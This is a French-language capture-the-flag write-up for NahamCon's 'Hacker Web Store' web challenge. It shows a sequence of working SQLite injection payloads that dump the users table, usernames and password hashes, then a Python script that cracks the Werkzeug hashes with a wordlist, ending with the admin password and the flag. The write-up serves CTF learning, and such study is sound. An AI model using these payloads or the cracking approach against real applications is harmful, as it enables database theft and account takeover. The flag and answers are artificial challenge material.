



# Hacker Web Store

***NahamCon CTF WriteUp | Web - Medium***

## Énoncé
  
Welcome to the hacker web store! Feel free to look around at our wonderful products, or create your own to sell.  
  
_This challenge may require a local password list, which we have provided below. **Reminder, bruteforcing logins is not necessary and [against the rules.](https://ctf.nahamcon.com/rules)**_**  

**Connect with:**  

-   [http://challenge.nahamcon.com:30584](http://challenge.nahamcon.com:30584)

**Attachments:** [password_list.txt](./password_list.txt)

## Enumeration

On arrive sur un site avec 3 onglets différents : `Products`, `Create` et `Admin`. Les différents produits sont représentés par des sortes de cartes, composés d'un titre, un prix et une description. 



Dans `Create`, il nous est possible de créer un nouveau produit, qui sera ensuite listé avec les autres, dans la page `Products`. D'après le *title* des pages, il s'agirait d'une application *Flask*. Ma première idée est donc de tester une *template injection*:



Le serveur n'a pas interprété notre payload, la piste n'est donc probablement pas la *SSTI*. Testons l'*injection SQL*... Tiens, quand on essaye de créer un produit avec `'` en valeur comme decription, voilà l'output: 



Trop sympa ! L'erreur nous donne la *query* entière :) Exploitons cette faille :

```sql
# Ci-dessous la liste des payloads que j'ai utilisé dans l'ordre, avec leur output respectif 

' || (SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users' LIMIT 1) || '
--> CREATE TABLE users ( id INTEGER NOT NULL, name VARCHAR(100), password VARCHAR(100) NOT NULL, PRIMARY KEY (id) )


' || (SELECT GROUP_CONCAT(name) AS column_names FROM pragma_table_info('users')) || '
--> id,name,password

' || (SELECT name from users where id=0) || '
--> None

' || (SELECT name from users limit 1) || '
--> Joram

' || (SELECT name from users where name NOT like 'Joram' limit 1) || '
--> James

' || (SELECT name from users where name NOT like 'Joram' AND name NOT like 'James' limit 1) || '
--> website_admin_account

' || (SELECT password from users where name='website_admin_account') || '
--> pbkdf2:sha256:600000$MSok34zBufo9d1tc$b2adfafaeed459f903401ec1656f9da36f4b4c08a50427ec7841570513bf8e57

' || (SELECT password from users where name='James') || '
--> pbkdf2:sha256:600000$GnEu1p62RUvMeuzN$262ba711033eb05835efc5a8de02f414e180b5ce0a426659d9b6f9f33bc5ec2b


' || (SELECT password from users where name='Joram') || '
--> pbkdf2:sha256:600000$m28HtZYwJYMjkgJ5$2d481c9f3fe597590e4c4192f762288bf317e834030ae1e069059015fb336c34
```

On a pu récupérer 3 noms d'utilisateurs avec les *hashs* de leurs mots de passe. Il nous reste plus qu'à *cracker* tout ça :) Après quelques recherches sur les *hashs* en question, voici ce que j'ai trouvé : 
 - D'après [ce topic stackoverflow](https://stackoverflow.com/questions/76935900/werkzeug-password-encryption), il s'agirait du format par défaut de hashage de mots de passe de *Werkzeug*
 - En allant faire un tour sur la [doc officielle](https://werkzeug.palletsprojects.com/en/3.0.x/utils/#werkzeug.security.check_password_hash) de *Wekzeug*, on croise la fonction `werkzeug.security.check_password_hash(_pwhash_, _password_)`, on n'a plus qu'à se servir de notre petit fichier `password_list.txt` fourni au début pour cracker les hashs. 

## Récupération du flag

Le script est plutôt explicite :

```python
import werkzeug

hash1 = "pbkdf2:sha256:600000$m28HtZYwJYMjkgJ5$2d481c9f3fe597590e4c4192f762288bf317e834030ae1e069059015fb336c34"
hash2 = "pbkdf2:sha256:600000$MSok34zBufo9d1tc$b2adfafaeed459f903401ec1656f9da36f4b4c08a50427ec7841570513bf8e57"
hash3 = "pbkdf2:sha256:600000$GnEu1p62RUvMeuzN$262ba711033eb05835efc5a8de02f414e180b5ce0a426659d9b6f9f33bc5ec2b"

file = open('password_list.txt','r')
for i in file.read().splitlines():
        if werkzeug.security.check_password_hash(hash1, i):
                print("password found for hash1: "+ i)
        if werkzeug.security.check_password_hash(hash2, i):
                print("password found for hash2: "+ i)
        if werkzeug.security.check_password_hash(hash3, i):
                print("password found for hash3: "+ i)
```

```bash
$ python3 script.py
password found for hash2: ntadmin1234
```

On retourne sur le site, pour se connecter avec le compte admin, et récupérer le flag.
 
Flag : `flag{87257f24fd71ea9ed8aa62837e768ec0}`

